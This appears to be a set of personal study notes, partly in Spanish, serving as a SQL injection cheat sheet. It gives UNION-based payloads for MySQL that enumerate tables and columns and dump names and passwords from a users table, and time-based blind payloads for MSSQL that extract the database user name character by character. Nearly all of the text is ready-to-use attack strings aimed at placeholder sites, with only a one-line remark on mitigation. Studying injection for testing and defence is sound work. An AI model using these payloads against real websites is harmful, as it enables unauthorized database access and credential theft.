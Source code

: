 ej 2
```
?id=738 union select 1,2,3,4,5,6
```
ej 3
```
?id=-1 union select 1,2,3,4,@@version,6
?id=-1 union select 1,2,3,4,user(),6
```
ej 4
```
?id=-1 union select 1,2,3,4,table_name,6 FROM information_schema tables
```
then
```
?id=-1 union all select 1,2,3,4,column_name,6 FROM information_schema columns where table_name='users'
esto nos devuelve que hay 4 columnas, id name password y country
```
then
```
id=-1 union select 1,2,name,4,password,6 FROM users
```
esto se sluciona deshabilitando error reporting (video 94)

## case 2 MySQL
* enumerate columns
```
http://[site]/page.php?id=1 order by 1/*
http://[site]/page.php?id=1 order by 2/*
http://[site]/page.php?id=1 order by 5/*
5 gives a valid page
```
* union  
```
http://[site]/page.php?id=1 union all select 1,2,3,4,5/
gives a valid page
```
Change the first part of the query to a null or negative value so we can see
```
http://[site]/page.php?id=-1 union all select 1,2,3,4,5/*
prints only 2 and 3
```
* grab info
```
http://[site]/page.php?id=null union all select 1,user(),3,4,5/*
http://[site]/page.php?id=null union all select 1,2,database(),4,5/*
http://[site]/page.php?id=null union all select 1,@@version,@@datadir,4,5/*
```



# 3 Blind SQLi
---
## case 1 MSSQL
```
http://[site]/page.asp?id=1; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'--
http://[site]/page.asp?id=1; IF (LEN(USER)=2) WAITFOR DELAY '00:00:10'--
http://[site]/page.asp?id=1; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'--
...
etc until we wait for 10 secs
```
* to extract the user name:
```
http://[site]/page.asp?id=1; IF (ASCII(lower(substring((USER),1,1)))>97) WAITFOR DELAY '00:00:10'--
http://[site]/page.asp?id=1; IF (ASCII(lower(substring((USER),1,1)))>98) WAITFOR DELAY '00:00:10'--
```